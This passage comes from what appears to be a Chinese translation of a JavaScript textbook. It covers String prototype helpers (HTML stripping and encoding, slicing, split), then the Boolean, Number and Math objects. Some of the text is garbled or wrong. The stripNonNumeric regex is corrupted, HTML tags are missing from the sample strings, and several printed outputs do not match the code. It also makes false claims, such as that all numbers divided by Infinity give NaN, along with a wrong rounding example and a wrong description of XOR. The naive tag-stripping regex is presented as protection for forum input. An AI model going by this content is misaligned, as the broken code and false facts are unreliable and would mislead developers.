        return (this.replace(SimplifyRegex, ″″).toLowerCase() == str.replace(SimplifyRegex, ″″).toLowerCase());
    } else
        return false;
}
```

让我们在几个字符串上测试一下：

```javascript
var originalString = ″ The quick      brown fox jumped      over the small frog. ″;

var compareString = ″The QUICK, BROWN ′FOX′ jumped over the small frog!″;

var differentString = ″The smart fox ate the frog.″;

document.write( ″Comparing originalString and compareString: ″ + originalString.similar(compareString) + ″<br />″);

document.write( ″Comparing originalString and differentString: ″ + originalString.similar(differentString));
```

字符串 `originalString` 和 `compareString` 在使用的单词上是相似的，但在空白、格式和大小写上不同。这两个应该被评估为相同。字符串 `differentString` 使用完全不同的单词，因此它应该被视为不同的字符串。如果你运行这段代码，将得到以下输出：

Comparing originalString and compareString: true

Comparing originalString and differentString: false

## 剔除非字母数字字符

有时，特别是当你在进行表单验证等操作时，你希望确保用户只使用数字和字母。有时你只需要数字，有时只需要字母。使用正则表达式和排除语法，你可以扩展我们的 `String` 对象以包含这些功能：

```javascript
String.prototype.stripNonAlphaNumeric = function() {
  return this.replace(/[^A-Za-z0-9 ]+/g, ″″);
}

String.prototype.stripNonNumeric = function() {
  return this.replace(/[⁰-9]+/g, ″″);
}

String.prototype.stripNonAlpha = function() {
  return this.replace(/[^A-Za-z ]+/g, ″″);
}
```

在第一个实用函数（`stripNonAlphaNumeric()`）中，你使用符号 `[^A-Za-z0-9 ]+` 来匹配所有*不在* A-Z、a-z、0-9 或空格范围内的符号。末尾的 `+` 符号意味着一个或多个。最后，你使用 `g` 全局标志来执行重复搜索。同样，在另外两个函数中，你限制了我们的“有效”字符列表，以提取出不同的组。现在你来测试它们看看得到什么：

```javascript
var originalString =″Here is some text, some punctuation @#$#@!, and numbers:
342343234 234″;

document.write( originalString.stripNonAlphaNumeric() + ″<br />″);

document.write( originalString.stripNonNumeric() + ″<br />″);

document.write( originalString.stripNonAlpha() );
```

这将会生成输出：

Here is some text, some punctuation 342343234 234


Here is some text, some punctuation 342343234 234

Here is some text, some punctuation

### 剔除 HTML

另一个常见任务是从用户输入中移除 HTML 标签，以防止人们在论坛上插入自己的标签。与其他示例类似，你正在对闭合标签进行匹配：

```javascript
String.prototype.stripHTML = function() {
    return this.replace(/<\S[^]*>/g, "");
}
```

这是一个示例：

```javascript
var originalString = "This b>string b>has some <u>HTML</u> in it.";

document.write( originalString.stripHTML() );
```

这包含一些 HTML。

### HTML 编码

有时你想保留那些 HTML 标签，而不是把它们剔除。如果你想在我们的网页上显示实际标签而不显示格式，你需要将开启和闭合角括号（`<` 和 `>`）替换为它们的 HTML 等效字符（`&lt;` 和 `&gt;`）。使用与之前相同的方法，你可以轻松为我们的程序添加此功能：

```javascript
String.prototype.encodeHTML = function() {
    return this.replace(/</g, "&lt;").replace(/>/g, "&gt;");
}
```

你需要执行两次替换，因为有两个需要替换的符号。如果你对上一个示例中的字符串应用我们的新函数：

```javascript
var originalString = "This b>string b>has some <u>HTML</u> in it.";

document.write( originalString.encodeHTML() );
```

你得到如下结果：This bstring bhas some uHTML/u in it

查看 HTML 输出的人将在文中看到正确的 HTML 标签。

# 切片处理

查看字符串内部只是故事的一半。现在你将查看一些切割方法。有很多方法可以实现这一点。以下是你将看到的方法：

## 提取字符

在某些语言中，你可以将字符串视为单个字符的数组，但 JavaScript 不是这样的（除非你在 Firefox 中工作 - 但通常不能这样做）。幸运的是，有一个简单、快速的方法从字符串中提取特定字母。它被称为 `charAt()`，基于字符串从左到右的零索引位置。基本语法为：`myString.charAt(n)`

这将返回另一个包含单个字母的字符串。为了演示这一点，让我们取字符串并遍历每个位置，在此过程中输出 `charAt()` 的值：

```javascript
var myString = "The quick brown fox.";

for (var i = 0; i < myString.length; i++)
    document.write( myString.charAt(i) + "-");
```

这将会生成以下输出：`T-h-e- -q-u-i-c-k- -b-r-o-w-n- -f-o-x.-`

注意，我们始终在 `string.length-1` 处结束循环。因为我们的字符串是基于索引的，第 0 个位置包含第一个字母，第 `length-1` 位置包含最后一个字母。

另一个与 `charAt()` 密切相关的函数是 `charCodeAt()`。它返回该位置字母的 Unicode 编码。它的语法与 `charAt()` 相同，但返回的是数字：`myString.charCodeAt(n)`。

在相同的演示中使用它来遍历句子，代码看起来如下所示：

```javascript
for (var i = 0; i < myString.length; i++) {
  document.write( myString.charCodeAt(i) + "-");
}
```

你得到的将不再是一系列字母，而是它们的 Unicode 值：`84-104-101-32-113-117-105-99-107-32-98-114-111-119-110-32-102-111-120-46-`

你可以使用伙伴方法 `fromCharCode()` 来执行此操作的*逆过程*，该方法接收一个数字并输出一个 Unicode 字符。`fromCharCode()` 有趣之处在于，与这里讨论的其他方法不同，它是 `String` 对象上的一个*静态方法*。这意味着你只需要通过引用 `String.fromCharCode()` 来访问它：

```javascript
for (var i = 0; i < myString.length; i++) {
  document.write( String.fromCharCode( myString.charCodeAt(i) ) + "-");
}
```

这将生成以下输出：`T-h-e- -q-u-i-c-k- -b-r-o-w-n- -f-o-x.-`

## 切割字符串

有几种不同的方法可以*切割*字符串。既然你知道字符串是不可变的，你就知道所有切割字符串的函数实际上都不会影响字符串本身——它们只是简单地返回一个带有更改的新字符串对象。你用于切割字符串的方法是 `substring()`、`slice()` 和 `substr()`。它们的作用基本上都相同，但实现方式不同。

从 `substring()` 开始，该方法提取字符串中两个索引*之间*的字符。语法为：`myString.substring(start[, stop]);`

让我们再次使用我们喜欢的字符串来演示它是如何工作的：

```javascript
// 使用 String.substring(start, stop)
var myString = "The quick brown fox.";
document.write( myString.substring(4,9) + "<br />"); // "quick"
```

幸运的是，`substring()` 的实际操作要更微妙一些：

- 如果 `stop` 参数小于 `start`，则两个参数将交换位置。
- 如果任何一个参数小于 0（或为 `NaN`），它将被视为 0。
- 如果任何一个参数大于字符串的长度，它将默认为字符串的长度。
- 如果省略了 `stop` 参数，它将默认为字符串的长度。
- 如果 `start` *等于* `stop`，它将返回一个空字符串（""）。

下一个方法 `slice()` 与 `substring()` 非常相似，但有一个主要区别。对于两个参数，它都支持相对于字符串末尾的*相对*定位。`slice()` 的基本语法与其他相同：`myString.slice(start[, stop]);`

在之前的相同示例中使用它，你会得到相同的结果：

```javascript
document.write( myString.slice(4,9) + "<br />"); // "quick"
```

然而，如果你对*任一*参数使用负位置，它们被认为是相对于字符串末尾的。例如：

```javascript
document.write( myString.slice(-9,-4) + "<br />"); // "rown"
```

还有一些其他细微之处：

- 如果省略了可选的 `stop` 参数，默认值变为字符串的末尾（与 `substring()` 一样）。
- 如果 `stop` 参数为负*或* `start` 参数为负数，则位置将从字符串末尾向前计算。
- 如果 `start` 参数大于 `stop`，两个参数*不会*交换位置（与 `substring()` 不同）。

用于切割字符串的三个方法中的最后一种是 `substr()`。它的语法稍有不同：`myString.substr(start[, length])`

虽然第一个参数相同，但可选的第二个参数指的是要切割*多少*个字符。

```javascript
document.write( myString.substr(4,5) ); // "quick"
```

除了此以外，关于 `substr()` 的唯一注意事项是：在基于 Mozilla 的浏览器中，如果你对 `start` 使用负数，它们被视为相对于字符串*末尾*的；而在 Internet Explorer 中，将返回整个字符串。本质上，该方法并不真正支持负索引。

## 示例

现在我已经讨论了将字符串切割成片段的各种方法，让我们来看几个实用示例。

### 模拟 Visual Basic 的 left 和 right 函数

Visual Basic 世界中有两个非常有用的函数是 `right()` 和 `left()` 函数，它们可以从字符串的一端或另一端截取一段内容。遗憾的是，JavaScript 没有这种内置工具。使用我们可靠的原型方法，你可以根据你现在学到的切割字符串的知识轻松地添加这些功能：

```javascript
String.prototype.left = function(count) {
  return this.slice(0, count);
}

String.prototype.right = function(count) {
  return this.slice(-count);
}
```

在我们的 `right()` 工具函数中，你依赖 `slice()` 的负索引特性，从字符串末尾左侧的位置开始切割。让我们现在在字符串上尝试这些函数：

```javascript
var myString = "The quick brown fox.";
document.write( myString.left(10) + "<br />"); // "The quick"
document.write( myString.right(10) ); // "brown fox."
```

你可以看到它们的工作方式与 VB 原生的 `left()` 和 `right()` 函数完全一样。

### shorten 方法

有时你想将字符串缩小到特定大小，但又要让用户知道还有文本。在写作中做到这一点的好方法是使用省略号（……）。使用 `slice()` 或 `substr()` 将字符串切割到特定大小是简单的事，但有时这意味着你会在空格后切割字符串，导致省略号只出现在最后一个字母后的奇特空格之后。另一种可能性是你在字符串末尾只切割了一个字母左右——在这种情况下，最好保持字符串不切割，因为它们在屏幕上占据的空间大致相同。

你可以利用学到的关于字符串长度、正则表达式和切割字符串的知识，在一个实用的工具函数中完成所有操作：

```javascript
String.prototype.shorten = function(count) {
  if (this.length > count+4)
    return this.slice(0, count-1).replace(/[\s]+$/g, "") + String.fromCharCode(8230);
  else
    return this;
}
```

如果你在字符串上尝试此并在空格后立即切割，空白字符将被自动移除。此外，如果我们的字符串只比计数限制多 4 个字母，你就让整个字符串完整地通过。你还使用了字符代码 (8230) 来表示正确的省略号，以避免它在我们的页面上换行。让我们尝试一下工具函数：

```javascript
var myString = "The quick brown fox.";
document.write( myString.shorten(11) ); // "The quick…"
```

## 字符串和数组

我还没有讨论过的字符串真正有用的功能之一是如何使用 `split()` 将它们转换为数组。如果你不知道数组是什么，只需把它们想象为带索引的对象集合即可。当你看到像这样的字符串：`Cow, Tree, Horse, Pig` 时，你会立即识别出这是一个以逗号为分隔符的*集合*。在日常编程中，许多自然数据看起来就是这样，并且应该通过字符串到数组的转换转换为结构化良好的集合。使用 `split()` 方法可以很轻松地做到这一点。`split()` 的语法如下：`myString.split([separator[, limit]])`

如果你不带任何参数调用 `split()`，你将得到一个只包含整个字符串的一个项目的数组。如果你提供一个字符进行搜索（在本例中为逗号），你将得到一个数组，逗号之间的所有文本作为数组的项。数组的长度将是 `n+1`，其中 `n` 是根据提供的搜索字符串找到的匹配数。

使用上面那个动物字符串，你可以轻松地创建一个数组并遍历它的项：

```javascript
var myArray = myString.split(",");
for (var i = 0; i < myArray.length; i++)
    document.write(myArray[i] + "<br />");
```

对于数组中的每个项目，你都会输出一行文本。我们的循环将在屏幕上生成以下输出：

Cow

Tree

Horse

Pig

你不需要根据单个字符拆分数组。你甚至可以使用整个单词或句子。如果你有一个复杂的模式需要查找，甚至可以使用正则表达式。

## 使用正则表达式进行分割

如果你想从一个字符串创建我们的数组，而你用于分割的模式不容易拆解为简单的字符串或字符，你可以使用正则表达式。例如，如果你想将段文本转换为数组，使得每个单词都是一个条目，你可以根据空格对其拆分：

```javascript
var myString = "Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed eiusmod tempor incididunt ut labore et dolore magna aliqua.";
var myArray = myString.split(" ");
```

遗憾的是，在每个单词中，你偶尔还会得到一些标点符号——这是你并不想要的。与其根据空格分割，你需要根据任何空格*或*标点符号进行分割。例如：

```javascript
// 根据空格或标点符号对同一个句子进行分割
myArray = myString.split(/[^a-z]+/gi);
```

在以此方式将复杂的文本模式转换为数组时，使用正则表达式的能力可能非常有帮助。

## 为 URL 编码字符串

所有浏览器都提供了一组全局函数，专门用于将 JavaScript 字符串编码，以便在其他计算机上正确显示。这些函数还有另一个有用功能，允许我们对字符串进行编码用于查询字符串。由于你不能在查询字符串中使用某些 Unicode 字母或符号（如符号 `&` 或问号 `?`，因为它们已经具有特殊含义），你必须对它们进行*编码*。在第 11 章“Windows 和框架”中，你将讨论 `escape()`、`unescape()`、`encodeURI()`、`decodeURI()`、`encodeURIComponent()` 和 `decodeURIComponent()` 函数，以及它们如何用于此目的。

## 总结

在本章中，你查看了与字符串、`String` 对象、正则表达式和 `RegExp` 对象相关的许多主题。让我们回顾一下你涵盖的内容：

- 字符串既是原始类型也是对象。JavaScript 会根据需要它们之间进行转换，但字符串作为对象和作为原始类型时的行为存在差异。
- 字符串基本上是不可变的，这意味着它们不能被更改。与其更改字符串，你通常会执行动态创建*新*字符串的操作。这对性能有影响。
- 字符串和数字之间有一种特殊的关系，它们具有很强的互操作性。在创建字符串时，你可以包含数字和数字操作，而无需先将它们转换为字符串值。有时，包含数字的字符串也可以直接作为数字使用。
- 语言中的任何对象都可以用字符串表示，尽管并不总是以特别有用的方式。
- `String` 对象具有许多实例方法，可用于 HTML 格式化我们的文本。你扩展了 `String` 对象，以提供添加类名格式的额外功能。
- 搜索和替换字符串与*正则表达式*的概念紧密结合，正则表达式是一种用于描述模式匹配的语法。
- JavaScript 中的 `RegExp` 对象为我们对字符串执行正则表达式操作提供了一种手段。
- `search()`、`match()` 和 `replace()` 函数都配合正则表达式工作，为字符串提供复杂的搜索功能。
- 有许多诸如 `slice()`、`substring()` 和 `substr()` 的函数，用于将字符串切割成较小的部分。它们提供了相似的功能，但行为有所不同。
- 使用 `split()` 方法可以很容易将字符串转换为数组。`split()` 方法也支持使用正则表达式。

在第 8 章中，我将讨论三个相关的全局对象：`Boolean`、`Number` 和 `Math` 对象，它们提供了一组用于处理数字的实用工具。

## Boolean、Number 和 Math 对象

到目前，你涵盖的内容少于你为了精通 JavaScript 所需的核心对象的一半。现在你将花一些时间查看你尚未涵盖的其他全局对象，特别是 `Boolean` 对象（真值和假值的载体）、`Number` 对象和 `Math` 对象。

与 `String` 对象一样，`Boolean` 和 `Number` 对象既是原始类型也是对象。它们同时是一个*值*以及一组用于处理这些数据类型的工具集合。与字符串类似，这种区别是微妙的，在实践中很少出现。然而，如果你正在对这些对象进行任何复杂工作，了解这种区别是有值的。稍后我还会讨论 `Math` 对象，它处理数字很有用。如果你对数学概念没有信心，不用担心——`Math` 对象并不可怕。它主要是大多数编程语言中常见的基础静态工具函数和数学常数的集合。你会惊讶于自己频繁地使用 `Math`，通常是为了完成一些简单的事情，比如将小数舍入到最邻整数，或者在一组值之间选择最大值。

## Boolean 对象

简单的数据类型之一是原始布尔值，它可以等于两个值之一：true 或 false。无论你是否知道，你都在不断与布尔值打交道。每当你使用 `if` 语句时如下例所示），你都会将一个表达式转换为布尔值并测试结果：

```javascript
if (myNumber > 10) ...
```

尽管 `myNumber` 和 `10` 都是数值，但表达式 `(myNumber > 10)` 是一个布尔测试，并将结果为 true 或 false。

## Boolean 对象概述

布尔值是原始值，但它们也继承自 `Boolean` 对象，该对象是一个“包装类”，也是全局对象的成员。这会自动为创建的每个布尔值扩展某些属性和方法。`Boolean` 包装类由以下成员组成：


这些特性继承自所有的布尔值，无论它们是用字面量表示法还是使用对象构造函数创建的。注意，并非所有特性在所有浏览器中都可用。详细兼容性信息请参见附录 B。

然而，你很少需要将布尔值视为对象。唯一有用的时候是你想像以前处理字符串和 `Object` 对象那样，向对象*添加*属性或方法。稍后我将给出一个示例，说明为什么在实践中你可能想这样做。

## 使用布尔值

你基本上有三种方式创建布尔原始值：显式地使用布尔字面量表示法、显式地使用 `Boolean` 对象作为函数，以及隐式地使用评估为布尔值的测试表达式。

这第一种使用布尔字面量的方法简单等同于使用 `true` 和 `false` 关键字。当你使用关键字时，你会自动继承 `Boolean` 对象的成员。例如：

```javascript
var myBool = true;
document.write(myBool + "<br />"); // "true"
document.write(myBool.toString() + "<br />"); // "true"
document.write(true + "<br />"); // "true"
document.write(true.toString() + "<br />"); // "true"
```

在所有这些情况下，无论你是引用分配了字面量 `true` 的变量 `myBool`，还是字面量 `true` 本身，你处理的一个完整的布尔实例，包含 `Boolean` 对象的成员（如 `toString()`）。另一种你创建布尔值的方法是将 `Boolean` 对象视为函数，并将你期望的初始值作为参数传递。例如：

```javascript
// 将创建一个值为 false 的布尔原始值
var myBoolPrimitive = Boolean(false);
```

你也可以像这样将一个表达式传递给函数：

```javascript
var myNum = 10;
var myBoolResult = Boolean(myNum > 5); // true
```

然而，重要的是不要尝试使用 Boolean 对象的构造函数来做相同的事情，如下：

```javascript
var myBoolObj = new Boolean(false); // false
```

尽管在这种情况下你得到一个表面上看起来像普通布尔原始值的对象，但它实际上是对象形式。如果你使用 `typeof` 检查结果，就能发现这一点：

```javascript
a = false;
b = new Boolean(false);
document.write(typeof a); // "boolean"
document.write(typeof b); // "object"
```

这也会影响你使用布尔值的方式。在类型转换下，当你评估表达式的结果时，它会被转换为布尔值。例如，表达式 `(5 > 10)` 在求值时会被强制转换为布尔值 false。同样地，如果你评估一个布尔值本身，它通常会被视为其自身的值。然而，由于所有对象在表达式中使用时都会求值为 true，因此一个值为 false 的 `Boolean` 对象如果这样使用，也会被求值为 true：

```javascript
var a = false;
var b = new Boolean(false);
if (a) {
    // 这部分代码不会执行
}
if (b) {
    // 这部分代码将执行
}
```

所以，不要使用 `Boolean` 对象的构造函数，而是使用字面量或将 `Boolean` 对象作为函数来创建原始值。如果你确实需要处理 `Boolean` 对象并想提取原始值，请使用 `valueOf()` 方法。

# 转换为布尔

创建 `Boolean` 对象的第三种方法是在评估表达式时隐式创建的。你知道你可以将表达式作为函数传递给 `Boolean` 对象，它将返回 true 或 false。`if` 语句中的表达式（例如）处理方式是相同的，例如当测试变量的相等性时：

```javascript
if (10 > 5) {
    // 这部分代码将执行
}
```

这等同于：

```javascript
if (true) {
    ...
}
```

即使该对象恰好是一个值为 false 的 `Boolean` 对象（如我之前提到的），对象始终求值为 true。然而，`null` 和 `undefined` 值将始终求值为 false。考虑以下表达式及其产生的布尔值。注意它们是如何根据我所描述的规则转换为布尔值的。

```javascript
falseVal1 = Boolean(); // false
trueVal1 = Boolean(true); // true
falseVal2 = Boolean(0); // false
trueVal2 = Boolean("true"); // true
falseVal3 = Boolean(null); // false
trueVal3 = Boolean("false"); // true
falseVal4 = Boolean(""); // false
trueVal4 = Boolean("Su Lin"); // true
falseVal5 = Boolean(false); // false
trueVal5 = Boolean(10 > 5); // true
falseVal6 = Boolean(5 > 10); // false
```

# 为 Boolean 对象添加异或 (XOR)

鉴于你通常想处理布尔原始值而不是对象形式，你可能会问为什么会有对象形式？如果你想为原生对象添加功能来帮助你（正如你已经对 `String` 等对象所做的那样），那么对象形式非常有用。你可能想这样做的一个例子是为两个布尔值添加类似于异或比较的功能。JavaScript 已经提供了几种布尔运算符，例如与 (`&&`)、或 (`||`) 和非 (`!`)，但明显缺少了另一个核心布尔运算符：异或 (XOR)。当你执行异或比较时，你基本上是在说：“检查任一值是否为真（如果是则返回 true）；否则返回 false。”

通过 `Boolean` 对象的 `prototype` 属性，你可以将此功能作为函数直接附加到对象上：

```javascript
Boolean.prototype.XOR = function(other) {
    return (this.valueOf() == true && other == false) ||
    (other == true && this.valueOf() == false);
}
```

注意，在上面的比较中，你显式地使用 `valueOf()` 函数从对象中提取原始值。因为 JavaScript 解释器会在需要时自动将你的原始值转换为对象，你可以立即在所有的布尔值上访问此函数：

```javascript
document.write(true.XOR(false) + "<br />"); // "true"
document.write(false.XOR(false)); // "false"
```

更多关于继承和扩展对象的详细信息，请阅读第 10 章。

# Number 对象

与支持多种数值类型（如小数、double、float、int、`int64`、`int32`、byte 等）的语言不同，JavaScript 使用单一类支持所有的数值：`Number`。这个核心对象支持整数和浮点数（带小数的数字）值。对于一个经验丰富的程序员来说，这似乎是对你可能想要处理的数值范围和类型的过度简化。

# Number 对象概述

与布尔值一样，数字是原始值，同时具有对象形式。所有数字（无论是字面量还是赋值给变量）都继承自 `Number` 对象。这个包装类是全局对象的成员。

# 整数和浮点值

在处理器层面，整数和浮点数（带小数的数字）的处理方式不同，而且在大多数强类型语言中，每种情况你都提供两种不同的类型。在 JavaScript 中没有这种区分。只有一个数据类型（`Number`），它用于表示这两者。在现代浏览器中，例如在处理长浮点值时考虑多少位数，具有很的一致性。

```javascript
1 + 1 // 2
2 + 1.1 // 3.1
1.9 + 0.1 // 2
```

在上一个例子中，你从两个浮点值开始得到一个整数，从而说明了类型的可交换性。

# 数字字面量

数字字面量以字面形式简单地表示为连续的数字序列、一个小数点，并可能的指数法或八进制表示。JavaScript 允许你以八进制（octal）、十进制（decimal）或十六进制（hexadecimal）等效形式表示数字字面量。符号表示在字面量内部也是可以接受的。例如，以下所有都是有效数字（参见注释中的十进制等效值）：

```javascript
10 // 10
-3 // -3
1.1 // 1.1
-12.3 // -12.3
312e3 // 312,000
42e-3 // 0.042
0x2a // 42
```

你可以在同一个表达式中交替使用这些格式。然而，结果将始终以十进制形式输出。例如：

```javascript
var a = 0x2a - 3e1 + 6; // 18
```

在第 7 章“字符串和正则表达式对象”中，你将学习如何在同一个表达式中混合使用数字和字符串。当将重载的 `+`（相加或拼接）运算符与字符串和数值一起使用时，数字将自动强制转换为字符串。了解这一点后，你只需陈述 `"" + 16` 即可将任何数字转换为字符串。

有一种更显式的方法可以实现这一点，即使用字符串对象上的 `toString()` 方法（例如，`myNumber.toString()`）。大多数现代浏览器的新版本支持一个可选参数，用于指定数字表示时的基数（`radix`）或底（`base`）。通常，数字以 10 进制表示，但你也可以选择另一个基数将数字转换为字符串。例如：

```javascript
var a = 34345;
document.write( a.toString(10) );    // "34345"
document.write( a.toString(2) );    // "1000011000101001" (binary)
document.write( a.toString(16) );   // "8629"
```

事实上，在现代浏览器中，有很多像 `toString()` 这样的实例方法可以从数字返回正确的字符串。它们是：**方法列表** 

这些方法中的每一个都作用于数字对象并输出字符串。其中最简单的是 `toLocaleString()`，它与 `toString()` 类似，不同在于它会根据用户的浏览器区域设置格式化字符串。然而，它不接受基数来实现此操作。

剩余的三个方法：`toExponential()`、`toFixed()` 和 `toPrecision()` 都根据特定的数学原理对数字进行格式化。第一个方法 `toExponential()` 接收一个数字并使用科学计数法来表示它，即该数字乘以 10 的某个幂。可选参数是显示的小数右侧位数：

```javascript
var b = 3.1415927;
document.write( b.toExponential(2) + "<br />" ); // 3.14e+0
document.write( b.toExponential(5) + "<br />" ); // 3.14159e+0
document.write( b.toExponential(0) + "<br />" ); // 3e+0
var c = 4324234;
document.write( c.toExponential(3) + "<br />" ); // 4.324e+6
document.write( c.toExponential() + "<br />"); // 4.324234e+6
```

下一个描述的方法是 `toFixed()`，它接收一个参数，描述小数点右侧要显示的位数。即使所讨论数字是一个没有小数部分的整数，该方法同样有效。这在例如格式化财务数字为两位小数时非常有用。例如，取你之前的 `b` 变量，你可以让它看起来像这样的美元值：

```javascript
document.write( b.toFixed(2) + "<br />" ); // 3.14
```

这些方法中最后一个是 `toPrecision()`，它指定了数字的数学精度并返回适当的字符串（可能是小数、整数或科学计数法）。指定的参数是数字中包含的*总*位数：

```javascript
var d = 33254.4234234;
document.write( d.toPrecision(8) + "<br />" ); // 33254.423
document.write( d.toPrecision(2) + "<br />" ); // 3.3e+4
document.write( d.toPrecision(5) ); // 33254
```

这三个方法方法都会对你的数字进行某些舍入。例如，如果你对 `3.149` 使用 `toFixed(2)`，你将得到 `3.15`。然而，这些方法并没有对数字进行精确的舍入，在少数情况下可能会出现错误。例如：如果你对数字 `3.1549` 使用 `toFixed(2)`，你将得到 `3.15`，而不是 `3.16`（后者是数字被正确舍入时得到的结果）。

# 转换为数字

我已经在第 6 章中简单提到过如何使用内置全局函数 `parseInt()` 和 `parseFloat()` 将字符串转换为数字。它们接收字符串并返回数字原始值。例如：

```javascript
var a = parseInt("34243.32");
var b = parseFloat("435.34");
document.write( a + "<br />" ); // 34243
document.write( b + "<br />" ); // 435.34
```

在较新的 Mozilla 和 Internet Explorer 浏览器中，你还可以为这两个函数中的任意一个定义第二个参数，即字符串的基数。例如，如果数字以二进制表示，你可以指定基数为 `2`，该数字在从字符串解析时将正确地转换为 10 进制数字。同样，以零开头的数字可以根据数字的基数有不同的解释：

```javascript
parseInt("08", 8); // 0
parseInt("08", 10); // 8
```

你也可以对字符串使用 `Number` 对象来返回数字原始值。然而，与 `Boolean` 和 `String` 对象一样，你应该始终避免使用 `Number` 对象的构造函数，因为它返回的是一个数字*对象*而不是*原始*值，而这是你真正想要的。正如我在第 7 章中描述的那样，这里有一些不应忽视的重要差异——其中最重要的一点是：

```javascript
var c = Number("3323");
var d = new Number("3323");
document.write( typeof c + "<br />" ); // number
document.write( typeof d ); // object
```

你可以使用 `Number()` 函数将各种数据类型转换为数字，包括字符串、布尔值日期。转换布尔值时，false 得到 `0`，true 得到 `1`。转换日期时得到的是自 1970 年 1 月 1 日 00:00:00 UTC 以来的毫秒数：

```javascript
Number(new Date()); // 12320794723
Number(true); // 1
Number(false); // 0
Number("12"); // 12
Number("Hello"); // NaN
```

上一个列表中的最后一个结果（`NaN`）代表“不是数字”。我将讨论这一点。

# NaN 和 Infinity

有时你会尝试对非数值值进行数学运算，或者将非数值值视为数字。在这种情况下，JavaScript 会通过返回 `NaN` 值（代表 *Not a Number*）来告知你。这不是字符串而是一个实际的值，你可以使用全局函数 `isNaN()` 对其进行测试：

```javascript
var a = parseInt("Hello!"); // NaN
if (isNaN(a)) {
    document.write("That is not a number!");
} else {
    document.write("That IS a number.");
}
```

`isNaN()` 函数实际上是在测试一个值是否或可以转换为数字。你可以将对象传递给 `isNaN()`，如果结果为真，你知道它可以被 `parseInt()`成功解析：

```javascript
isNaN(new Date()) // false
isNaN(12) // false
isNaN("12") // false
isNaN("apple") // true
```

如果你想从函数返回 `NaN` 值，可以使用 `Number` 对象的静态属性：`Number.NaN`。例如：

```javascript
function monthName(monthNum) {
    var monthArray = {
        '0': 'January', '1': 'February',
        '2': 'March', '3': 'April',
        '4': 'May', '5': 'June',
        '6': 'July', '7': 'August',
        '8': 'September', '9': 'October',
        '10': 'November', '11': 'December'
    };
    if (!isNaN(monthNum) && (monthNum >= 0 && monthNum <= 11)) {
        return monthArray[monthNum];
    } else {
        return Number.NaN;
    }
}

document.write(monthName(1) + "<br />"); // February
document.write(monthName(7) + "<br />"); // August
document.write(monthName(33)); // NaN
```

在这个示例中，你根据月份数字返回月份名称。你测试了该数字实际上是否是一个数字（使用 `isNaN()`），以及它是否在一年的 12 个月的范围之内。如果不是，它将使用 `Number` 对象的静态属性返回结果 `NaN`。另一个伪数值是 `Infinity`，它是全局对象的一个属性，代表静态属性 `Number.POSITIVE_INFINITY`，该值比 JavaScript 中可能表示的最大数字还要大。在第 6 章中，我将介绍这个数字的性质以及它的工作原理。`Number` 对象有两个相关的属性，`Number.POSITIVE_INFINITY` 和 `Number.NEGATIVE_INFINITY`，它们的行为相同。这些值具有你应当注意的特定属性：

- 正数乘以 `Number.POSITIVE_INFINITY` 结果是 `POSITIVE_INFINITY`。
- 同样，负数乘以 `Number.NEGATIVE_INFINITY` 结果是 `NEGATIVE_INFINITY`。
- `POSITIVE_INFINITY` 或 `NEGATIVE_INFINITY` 乘以 0 始终为 `NaN`。
- `POSITIVE_INFINITY` 乘以 `NaN` 结果为 `NaN`。
- `POSITIVE_INFINITY` 除以任何负数（当然，`NEGATIVE_INFINITY` 除外）为 `NEGATIVE_INFINITY`。
- `POSITIVE_INFINITY` 除以任何正数（当然，`POSITIVE_INFINITY` 除外）为 `POSITIVE_INFINITY`。
- `POSITIVE_INFINITY` 除以自身或 `NEGATIVE_INFINITY` 为 `NaN`。`NEGATIVE_INFINITY` 也是如此。
- 所有数字除以 `POSITIVE_INFINITY` 或 `NEGATIVE_INFINITY` 均为 `NaN`。

# 最大值和最小值

无穷之外，`Number` 对象还有两个静态属性，表示可以表示的最大数字和最接近零的数字。这些是 `Number.MAX_VALUE` 和 `Number.MIN_VALUE`，分别等于 `1.79e+308` 和 `5e-324`。注意，`Number.MIN_VALUE` 并不是最小的数字，而是最接近零的可表示数字。小于 `Number.MIN_VALUE` 但大于 0 的数字会被转换为 0，被称为*溢出值 (underflow values)*。大于 `Number.MAX_VALUE` 的值会被转换为 `Infinity`。下面的代码段演示了如何在表达式中使用这些常量：

```javascript
var myNum = 1000;

if (myNum < Number.MAX_VALUE) {
    document.write("Your number is of a reasonable size.");
} else {
    document.write("Your number is too large.");
}
```

如你所见，你可以将此属性视为 `Number` 对象的静态成员，并像普通数字一样对待它。接下来我介绍 `Math` 对象，它是 JavaScript 中处理数字和计算的本质工具。

# Math 对象

尽管你可以使用内置数学运算符如 `+`、`-`、`*`、`/` 和 `%` 执行许多算术运算，但还有许多更复杂的操作无法通过这种方式完成。这时 `Math` 对象派上了用场，它基本上是一个执行高级数学运算的静态属性和方法的集合。这些工具包括三角函数、对数函数、指数函数，以及如 `PI` 等数学常数。你通常将 `Math` 对象作为单例或静态对象使用。方法直接在对象本身上访问，而不是创建实例。例如，在表达式中访问 `PI` 属性，你可以说：

`3 + Math.PI // 6.141592653589793`

要将数字舍入到最近的整数，只需简单地静态使用 `Math.round()`：

`Math.round(Math.PI) // 3`

话如此，你使用 `Math` 对象的方式与使用创建的任何其他 JavaScript 对象的方式相似。你从对象的引用开始，使用点表示法，并引用方法或属性。某些方法接受多个参数，但所有方法都会返回某种类型的结果。

# Math 对象概述

总结来说，`Math` 对象为 JavaScript 增加了基础运算符集中不具备的功能。它还将许多数学特性组合在一起，这些特性本可以同样容易放在其他对象上（如 `Number` 对象），但为了方便统一放在一个伞类之下。`Math` 对象的成员包括：


详细的浏览器兼容性信息请参见附录 B。尽管 `Math` 对象在大多数 JavaScript 引擎中的实现方式基本相同，并追溯到 JavaScript 的早期版本，但在这些年在这方面没有很大变化。

# 数学常数

`Math` 对象的属性代表了一组大多数在该领域有背景的人熟悉的关键数学常数。它们是：


它们作为 `Math` 对象的静态成员访问。例如：

```javascript
// 计算圆面积
function circleArea(radius) {
    return Math.PI * (radius * radius);
}

document.write( circleArea(9) ); // 254.46900494077323
```

在这个示例中，我创建了一个简单的函数来根据半径返回圆面积。这是通过将 `PI`（在此情况下为 `Math.PI`）乘以半径平方来实现的。在节中，我将使用 `Math` 的另一个工具函数对其进行简单的简化。

# Math 工具方法

`Math` 对象上的方法本质上是用于常用数学操作的静态工具方法，例如获取一组数字最大值或计算数字的正弦。这些方法包括：


其中一些方法以弧度而非角度返回其值（例如 `acos()` 和 `sin()`）。如果你想以角度表示此结果（有时这样做更容易），你可以通过简单扩展 `Math` 对象来轻松地进行转换。由于你知道 `degree = radians * (180/pi)`，来回转换是很容易的：

```javascript
// 将弧度转换为角度
Math.radToDeg = function(radians) {
